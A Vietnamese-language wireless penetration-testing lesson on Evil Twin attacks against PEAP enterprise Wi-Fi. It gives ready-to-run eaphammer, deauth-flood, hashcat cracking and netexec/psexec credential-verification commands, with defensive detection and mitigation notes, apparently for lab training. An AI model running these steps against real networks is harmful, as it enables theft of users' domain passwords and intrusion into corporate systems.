

> **Prerequisites**: [[01-8021x-eap-radius-architecture|01. 802.1X/EAP/RADIUS Architecture]] · [[02-eap-methods-deep-dive|02. EAP Methods Deep-Dive]] · [[03-wireless-recon-eap-fingerprinting|03. Wireless Recon & EAP Fingerprinting]]
> **Objectives**:
> - Hiểu tại sao Evil Twin hoạt động được dù PEAP dùng TLS
> - Setup Rogue RADIUS server với hostapd-wpe
> - Thực hiện full Evil Twin attack bằng eaphammer
> - Capture và crack NetNTLMv1 hash với hashcat mode 5500
> - Hiểu tại sao certificate validation là defense then chốt

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - WPA2-Enterprise network dùng PEAP/MSCHAPv2 (xác nhận từ Lesson 03)
> - Clients **không enforce certificate validation** — hoặc sẽ accept self-signed cert từ Rogue AP
> - WiFi adapter hỗ trợ AP mode (hostapd) — thường là adapter riêng với chipset Atheros/Ralink
> - Kali Linux với eaphammer hoặc hostapd-wpe đã cài đặt
> - Đủ signal power để "outshout" legitimate AP (adapter gain đủ mạnh hoặc target gần attacker)

> [!warning] Về certificate validation
> Đây là attack point then chốt. Nếu client được cấu hình đúng để validate server cert và reject unknown CAs → client sẽ hiển thị warning "Certificate not trusted". Nhiều users sẽ bấm "Accept" hoặc "Continue" vì không hiểu ý nghĩa, hoặc device được cấu hình auto-accept → attack vẫn thành công.

---

## Cơ chế tấn công

### Tại sao TLS không bảo vệ được credentials?

Đây là điểm khó hiểu nhất và quan trọng nhất: PEAP sử dụng TLS để bảo vệ inner auth, nhưng Evil Twin vẫn capture được credentials. Tại sao?

**Vì Rogue AP chính là TLS endpoint.**

Trong PEAP, client thiết lập TLS tunnel với **AP** (chính xác hơn là RADIUS server phía sau AP). Khi Rogue AP impersonate legitimate AP, nó present một TLS certificate. Nếu client chấp nhận cert đó (dù là self-signed hay fake) → client thiết lập TLS tunnel với **Rogue RADIUS server của attacker**.

Sau khi tunnel được thiết lập, Phase 2 MSCHAPv2 exchange xảy ra **bên trong tunnel của attacker**. Attacker receive plaintext MSCHAPv2 challenge và response ngay trong server log của mình.

![[img-04-evil-twin-chain.svg]]
*Hình 4: Evil Twin attack chain — 4 phases từ recon đến hash capture*

```
Client                  Rogue AP (Attacker)          [Legit RADIUS — bị bỏ qua]
  |                           |
  | <-- Beacon (CorpWifi) --- |   Rogue AP broadcast cùng SSID
  |                           |
  | -- Deauth from Legit --> [Legit AP bị deauth flood]
  |                           |
  | -- Connect to Rogue AP -> |   Client kết nối vào Rogue AP
  | <-- TLS Certificate ----- |   Rogue RADIUS gửi SELF-SIGNED cert
  |    [Warning: untrusted]   |
  |    [User clicks Accept]   |
  | ========TLS TUNNEL======= |   Tunnel đến ATTACKER server
  | -- MSCHAPv2 Challenge --> |   Attacker request challenge
  | <- MSCHAPv2 Response ---- |   CLIENT gửi NT hash của password
  |                           |
  [Attacker sees: username + challenge + response = NetNTLMv1 hash]
```

### NetNTLMv1 Hash Format

Credentials bị capture ở dạng **NetNTLMv1** (không phải NTLM hash thông thường):

```
Format: username::domain:challenge:NT_response:LM_response
Example: jdoe::CORP:d6ff3373aa353f3b:4e45c7bab093d701...:000000000000000000000000
```

Hashcat mode `-m 5500` crack NetNTLMv1. Nếu LM response là `0000000000000000` → chỉ dùng NT response. Nếu crack được → plaintext password của domain user.

---

## Quy trình tấn công

**Môi trường giả định**: Target "CorpWifi", BSSID A0:B1:C2:D3, Channel 6, EAP method PEAP/MSCHAPv2 (đã xác nhận từ Lesson 03). Kali attacker có `wlan0` (AP mode) và `wlan1` (monitor mode).

### Method A — EAPHammer (Recommended — all-in-one)

**Bước 1 — Cài đặt eaphammer**

```bash
sudo apt update && sudo apt install eaphammer
# Hoặc từ source:
git clone https://github.com/s0lst1c3/eaphammer.git && cd eaphammer
sudo ./kali-setup
```

**Bước 2 — Generate self-signed certificate**

```bash
./eaphammer --cert-wizard
```

> **Expected output**: Interactive wizard hỏi country, org, CN... Cert được lưu vào `certs/` folder. Quan trọng: CN nên match domain của target (ví dụ `corp.local`) để ít đáng ngờ hơn.

**Bước 3 — Launch Evil Twin (PEAP credential capture)**

```bash
./eaphammer \
    --bssid A0:B1:C2:D3:E4:F5 \
    --essid CorpWifi \
    --channel 6 \
    --wpa 2 \
    --auth peap \
    --interface wlan0 \
    --creds
```

> **Expected output**:
> ```
> [*] Starting hostapd-wpe...
> [*] Access point up and running
> [*] Waiting for clients to connect...
> ```
> Sau khi client kết nối:
> ```
> mschapv2: Sat Apr 01 10:23:45 2026
>     username: jdoe
>     challenge: d6:ff:33:73:aa:35:3f:3b
>     response: 4e:45:c7:ba:b0:93:d7:01:...
>     jtr NETNTLM: jdoe::CORP:d6ff3373aa353f3b:4e45c7bab093d701...
> ```

**Bước 4 — Deauth clients từ legit AP** (để force re-connect vào Rogue AP)

```bash
# Trong terminal riêng, với wlan1 ở monitor mode:
sudo airmon-ng start wlan1
sudo aireplay-ng -0 0 -a A0:B1:C2:D3:E4:F5 wlan1mon
# -0 0 = flood deauth liên tục (dừng bằng Ctrl+C)
```

> **Expected output**: Clients disconnect khỏi legit AP → probe → kết nối vào Rogue AP → credential capture.

**Bước 5 — Format và crack hash**

```bash
# Hash từ eaphammer output (jtr format):
echo "jdoe::CORP:d6ff3373aa353f3b:4e45c7bab093d701...:0000000000000000" > netntlmv1.txt

# Crack với hashcat
hashcat -m 5500 netntlmv1.txt /usr/share/wordlists/rockyou.txt

# Với rules để tăng success rate:
hashcat -m 5500 netntlmv1.txt /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule

# Nếu LM response = 000..., dùng NetNTLMv1-VANILLA mode:
hashcat -m 5500 netntlmv1.txt /usr/share/wordlists/rockyou.txt \
    --force
```

> **Expected output**: `jdoe::CORP:... → Password123!` — domain password bị crack.

**Bước 6 — Verify credentials**

```bash
# Test với netexec (crackmapexec successor):
nxc smb <DC_IP> -u jdoe -p 'Password123!'

# Test với impacket:
python3 /usr/share/doc/python3-impacket/examples/smbclient.py \
    CORP/jdoe:'Password123!'@<DC_IP>
```

> **Expected output**: `[+] CORP\jdoe:Password123! (Pwn3d!)` hoặc SMB session mở.

### Method B — hostapd-wpe (Manual — More Control)

```bash
# Cài hostapd-wpe
sudo apt install hostapd-wpe

# Edit config:
sudo nano /etc/hostapd-wpe/hostapd-wpe.conf
# Thay đổi: interface=wlan0, ssid=CorpWifi, channel=6

# Start rogue AP:
sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

> **Expected output**: Tương tự eaphammer nhưng output verbose hơn. Credentials xuất hiện trong terminal.

---

## Biến thể & Bypass

### Khi clients enforce certificate validation

Nếu clients được cấu hình đúng, họ sẽ reject self-signed cert. Bypass options:

**Option 1 — Purchased/Real Certificate**: Nếu có budget hoặc đã compromise DNS → mua cert cho domain target từ public CA. Clients validate CA chain nhưng có thể không check CN.

**Option 2 — EAP-GTC Downgrade**: Thay vì steal MSCHAPv2 hash, force client dùng GTC → cleartext password. Xem chi tiết trong [[05-eap-downgrade-gtc-cleartext|Lesson 05]].

**Option 3 — Capture và decrypt TLS traffic**

```bash
# Comment out dh_file trong hostapd-wpe.conf để dùng RSA thay DH
# sed -i 's/dh_file=/#dh_file=/' /etc/hostapd-wpe/hostapd-wpe.conf

# Start capture trong Wireshark trên evil twin interface
# Add RSA private key: Edit → Preferences → Protocols → TLS → RSA keys → Add
# Wireshark decrypt TLS và hiển thị inner MSCHAPv2
```

### asleap — Alternative LEAP/PEAP Cracker

```bash
# asleap crack NetNTLMv1 (có thể nhanh hơn hashcat với specific patterns)
asleap -C <challenge_hex> -R <response_hex> -W /usr/share/wordlists/rockyou.txt

# Từ pcap file trực tiếp:
asleap -r capture.cap -W /usr/share/wordlists/rockyou.txt
```

---

## Cây quyết định



---

## Command Cheatsheet

**EAPHammer Setup & Launch**

```bash
# Cài đặt
sudo apt install eaphammer

# Generate cert (lần đầu)
./eaphammer --cert-wizard

# Launch PEAP evil twin (thay thế <BSSID>, <ESSID>, <CH>, <iface>)
./eaphammer --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 2 --auth peap --interface <IFACE> --creds
```

**Deauthentication**

```bash
# Monitor mode adapter (wlan1mon) riêng
sudo airmon-ng start wlan1
sudo aireplay-ng -0 0 -a <BSSID_LEGIT_AP> wlan1mon          # flood
sudo aireplay-ng -0 10 -a <BSSID> -c <CLIENT_MAC> wlan1mon  # targeted
```

**Hash Cracking**

```bash
# NetNTLMv1 (PEAP/MSCHAPv2 capture)
hashcat -m 5500 netntlmv1.txt /usr/share/wordlists/rockyou.txt
hashcat -m 5500 netntlmv1.txt /usr/share/wordlists/rockyou.txt -r best64.rule
hashcat -m 5500 netntlmv1.txt /usr/share/wordlists/rockyou.txt --show  # view results

# asleap alternative
asleap -C <challenge> -R <response> -W /usr/share/wordlists/rockyou.txt

# Mask attack nếu wordlist fail
hashcat -m 5500 -a 3 netntlmv1.txt '?u?l?l?l?l?d?d?d'
```

**Credential Verification**

```bash
# netexec (nxc)
nxc smb <DC_IP> -u <user> -p '<pass>'
nxc smb <SUBNET>/24 -u <user> -p '<pass>' --continue-on-success

# impacket
python3 smbclient.py DOMAIN/user:'pass'@<IP>
python3 psexec.py DOMAIN/user:'pass'@<IP>
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 14 ngày đầu.

**Drill 1 — eaphammer launch command từ memory**
Mục tiêu: gõ full eaphammer command với tất cả flags mà không nhìn cheatsheet.

```bash
./eaphammer --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 2 --auth peap --interface <IFACE> --creds
```

Luyện cho đến khi: gõ đầy đủ trong dưới 15 giây.

**Drill 2 — Hash format và hashcat command**
Mục tiêu: nhìn eaphammer output → format đúng → chạy hashcat ngay.

```bash
# Từ eaphammer output dạng jtr NETNTLM:
# user::DOMAIN:challenge:response → hashcat format giống hệt
hashcat -m 5500 hash.txt /usr/share/wordlists/rockyou.txt
```

Luyện cho đến khi: format hash và chạy hashcat trong dưới 30 giây.

**Drill 3 — Full attack chain**
Mục tiêu: từ "đã có intelligence" đến hash cracked trong môi trường lab.

```bash
# 1. Launch evil twin
./eaphammer --bssid <BSSID> --essid <ESSID> --channel 6 --auth peap --interface wlan0 --creds &
# 2. Deauth trong terminal khác
sudo aireplay-ng -0 0 -a <BSSID> wlan1mon &
# 3. Khi hash xuất hiện: Ctrl+C deauth, save hash, crack
hashcat -m 5500 hash.txt /usr/share/wordlists/rockyou.txt
# 4. Verify
nxc smb <DC_IP> -u <user> -p '<cracked_pass>'
```

Luyện cho đến khi: flow hoàn tất trong dưới 10 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Duplicate SSID**: Legit WIDS phát hiện 2 APs cùng SSID trên không khí — high confidence alert.
> **Deauth flood**: 802.11 management frames Deauthentication với reason code bất thường, số lượng lớn → WIDS alert.
> **Certificate mismatch**: Security-aware clients log warning về certificate validation failure.
> **RADIUS auth attempt changes**: RADIUS log thấy clients không authenticate qua legit server nữa.
> **SIEM rule**: `duplicate_ssid_detected OR (deauth_count > 50 in 10s)`

> [!note] Mitigation
> - **Enforce certificate validation** trên tất cả supplicants: Windows Group Policy → WiFi profile → validate server cert → pin specific CA
> - Triển khai WIPS (Wireless Intrusion Prevention System) có khả năng automated contain rogue APs
> - Enable **802.11w** Protected Management Frames — ngăn deauth spoofing (WPA3 bắt buộc)
> - Monitor RADIUS access logs — bất thường khi clients đột ngột không auth qua RADIUS server
> - User training: không bấm "Accept" khi có certificate warning trên WiFi login

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | Dedicated Evil Twin labs với hostapd-wpe |
| Local VM | Kali + hostapd-wpe + Windows victim | Full evil twin lab; Windows xem cert warning behavior |
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | EAPHammer coverage chi tiết |
| TryHackMe | **Attacking WPA Enterprise** room | Guided evil twin practice |

---

## Field Manual Entry

> [!abstract] Evil Twin PEAP — Quick Reference
> **Điều kiện**: PEAP/MSCHAPv2 network; clients không enforce cert validation
> **Lệnh nhanh**: `./eaphammer --bssid <B> --essid <E> --channel <C> --wpa 2 --auth peap -i wlan0 --creds`
> **Full flow**: `--cert-wizard` → launch evil twin → deauth legit AP → capture NetNTLMv1 → `hashcat -m 5500 hash.txt rockyou.txt`
> **Look for**: `mschapv2: username: X challenge: Y response: Z` trong eaphammer output
> **Verify**: `nxc smb <DC_IP> -u <user> -p '<cracked_pass>'`
> **Ref**: [[04-evil-twin-rogue-radius-peap|04. Evil Twin: Rogue RADIUS + PEAP Hash Capture]]
